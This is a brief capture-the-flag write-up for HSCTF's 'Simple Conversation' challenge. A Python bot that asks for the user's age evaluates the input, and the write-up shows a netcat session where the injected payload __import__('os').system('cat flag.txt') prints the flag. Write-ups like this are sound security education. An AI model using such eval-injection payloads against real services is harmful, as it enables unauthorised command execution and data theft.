 # HSCTF - Simple Cinversation

## Desc

A simple bot in python (probably over socket) asking you about your age.

## Vuln

The bot alows you to exec some python code.
Execute "ls" via os.system to find the "flag.txt"
Then just "cat" it!

## Sploit


```bash
nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> __import__('os').system('cat flag.txt')                      
hsctf{plz_u5e_pyth0n_3}
Wow!
Sometimes I wish I was 0
Well, it was nice meeting you, 0-year-old.
Goodbye!
```
